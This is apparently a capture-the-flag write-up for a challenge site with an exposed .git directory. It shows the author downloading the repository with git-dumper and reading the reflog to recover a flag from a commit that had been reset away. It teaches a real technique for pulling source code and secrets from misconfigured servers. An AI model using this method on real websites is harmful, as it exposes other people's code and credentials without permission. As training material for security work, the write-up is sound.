 ## Git Goo [100 pts]

**Category:** Misc
**Solves:** 160

## Description
Can you find your way around a git reposotory [sic]?

gitgoo.challs.pwnoh.io

### Solution

Visting the webpage, we see below hint:

```html
Can you find your way around a git reposotory [sic]? 
```

Ok, let's verify if there is any git repo available:

```bash
curl "https://gitgoo.challs.pwnoh.io/.git/HEAD"
ref: refs/heads/master
```

Ok seem the git repo is available. We should download files and look for flag.
I used git-dumper package to download `.git` files without having directory traversal enabled.

You can access this tool using link below:

https://github.com/arthaud/git-dumper

Now let's download files:

```bash
python git_dumper.py https://gitgoo.challs.pwnoh.io/.git output
```

The source files will be placed in `output` folder.

Let's look for the flag.
```
> cd output
> ls
app.py  Dockerfile  index.html

> ls -la
total 28
drwxr-xr-x 3 execut3 execut3 4096 Sep 28 16:22 ./
drwxr-xr-x 7 execut3 execut3 4096 Sep 28 16:22 ../
-rw-r--r-- 1 execut3 execut3  591 Sep 28 16:22 app.py
-rw-r--r-- 1 execut3 execut3  116 Sep 28 16:22 Dockerfile
drwxr-xr-x 7 execut3 execut3 4096 Sep 28 16:22 .git/
-rw-r--r-- 1 execut3 execut3  162 Sep 28 16:22 .gitignore
-rw-r--r-- 1 execut3 execut3   53 Sep 28 16:22 index.html

> git log
commit 391d507873dc7139d2420a8b492620db26912cdb (HEAD -> master)
Author: jm8 <jm8@pwnoh.io>
Date:   Sun Sep 22 13:42:54 2024 -0400

    Add app.py and Dockerfile but NOT flag

commit bc97871a6f5453920882b0bbd97d8ac4fb2bcf9c
Author: jm8 <jm8@pwnoh.io>
Date:   Sun Sep 22 13:42:54 2024 -0400

    Initial commit (add index.html)

> cat .git/logs/HEAD 
0000000000000000000000000000000000000000 bc97871a6f5453920882b0bbd97d8ac4fb2bcf9c jm8 <jm8@pwnoh.io> 1727026974 -0400	commit (initial): Initial commit (add index.html)
bc97871a6f5453920882b0bbd97d8ac4fb2bcf9c 872e5099233f5d528ce3e60b4b197c9af17f784b jm8 <jm8@pwnoh.io> 1727026974 -0400	commit: Add app.py and Dockerfile
872e5099233f5d528ce3e60b4b197c9af17f784b 9b474236ba20cf3f7d484b76348de51c819c0d65 jm8 <jm8@pwnoh.io> 1727026974 -0400	commit: Accidentally commited flag :facepalm:
9b474236ba20cf3f7d484b76348de51c819c0d65 bc97871a6f5453920882b0bbd97d8ac4fb2bcf9c jm8 <jm8@pwnoh.io> 1727026974 -0400	reset: moving to HEAD~~
bc97871a6f5453920882b0bbd97d8ac4fb2bcf9c 391d507873dc7139d2420a8b492620db26912cdb jm8 <jm8@pwnoh.io> 1727026974 -0400	commit: Add app.py and Dockerfile but NOT flag
391d507873dc7139d2420a8b492620db26912cdb 391d507873dc7139d2420a8b492620db26912cdb jm8 <jm8@pwnoh.io> 1727528096 +0330	checkout: moving from master to 391d507873dc7139d2420a8b492620db26912cdb
391d507873dc7139d2420a8b492620db26912cdb bc97871a6f5453920882b0bbd97d8ac4fb2bcf9c jm8 <jm8@pwnoh.io> 1727528117 +0330	checkout: moving from 391d507873dc7139d2420a8b492620db26912cdb to bc97871a6f5453920882b0bbd97d8ac4fb2bcf9c
bc97871a6f5453920882b0bbd97d8ac4fb2bcf9c 9b474236ba20cf3f7d484b76348de51c819c0d65 jm8 <jm8@pwnoh.io> 1727528206 +0330	checkout: moving from bc97871a6f5453920882b0bbd97d8ac4fb2bcf9c to 9b474236ba20cf3f7d484b76348de51c819c0d65
9b474236ba20cf3f7d484b76348de51c819c0d65 bc97871a6f5453920882b0bbd97d8ac4fb2bcf9c jm8 <jm8@pwnoh.io> 1727528213 +0330	checkout: moving from 9b474236ba20cf3f7d484b76348de51c819c0d65 to bc97871a6f5453920882b0bbd97d8ac4fb2bcf9c
bc97871a6f5453920882b0bbd97d8ac4fb2bcf9c 872e5099233f5d528ce3e60b4b197c9af17f784b jm8 <jm8@pwnoh.io> 1727528221 +0330	checkout: moving from bc97871a6f5453920882b0bbd97d8ac4fb2bcf9c to 872e5099233f5d528ce3e60b4b197c9af17f784b
```

let's revert to commit `872e5099233f5d528ce3e60b4b197c9af17f784b`.

```bash
> git checkout 872e5099233f5d528ce3e60b4b197c9af17f784b
Previous HEAD position was bc97871 Initial commit (add index.html)
HEAD is now at 872e509 Add app.py and Dockerfile

> ls
app.py  Dockerfile  flag.txt  index.html

> cat flag.txt 
bctf{flaghere}
```
